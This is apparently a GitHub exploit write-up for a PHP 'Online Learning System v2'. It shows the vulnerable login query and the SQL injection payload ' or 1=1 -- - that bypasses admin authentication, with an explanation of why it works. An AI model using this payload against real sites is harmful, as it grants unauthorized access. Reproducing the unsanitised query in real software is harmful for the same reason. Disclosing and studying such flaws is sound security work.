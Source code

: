 # online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Exploit title : online-learning-system-v2-sqli-authentication-bypass-file-upload-unauthenticated-RCE
* Vendor Homepage : https://github.com/oretnom23  / https://www.sourcecodester.com/php/14929/online-learning-system-v2-using-php-free-source-code.html
* Software Link : https://www.sourcecodester.com/sites/default/files/download/oretnom23/elearning_v2_0.zip
## Sql injection authentication bypass
* the attacker can bypass admin login from by submitting sql qurey in the username paramater : 
before the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
after the injection
```php
	public function login(){
		extract($_POST);

		$qry = $this->conn->query("SELECT * from users where username = '$username' or 1=1 -- -' and password = md5('$password') ");
		if($qry->num_rows > 0){
			foreach($qry->fetch_array() as $k => $v){
				if(!is_numeric($k) && $k != 'password'){
					$this->settings->set_userdata($k,$v);
				}
```
it doesn't matter if username supplied is exsists or not the most important thing is the booleon injection (or 1=1) it will return true and let us login without supllying password
everything after this qurey (or 1=1 -- -) will be ignored bc of the comment (-- -)
